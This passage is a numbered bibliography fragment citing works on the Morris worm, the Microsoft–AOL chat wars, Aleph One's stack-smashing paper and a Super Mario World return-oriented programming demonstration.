4.  Christopher Kelty. [The MorrisWorm](https://limn.it/articles/the-morris-worm/) Limn Magazine,Issue 1: Systemic Risk. 2011.
5.  David Auerbach. [Chat Wars: Microsoft vs.AOL](https://nplusonemag.com/issue-19/essays/chat-wars/) NplusOneMagazine, Issue 19. Spring 2014.
6.  Aleph One. [Smashing the Stack for Fun andProfit](http://insecure.org/stf/smashstack.html). 1996.
7.  DotsAreCool. [Super Mario World CreditWarp](https://youtu.be/vAHXK2wut_I) (Nintendo ROP example). 2015.


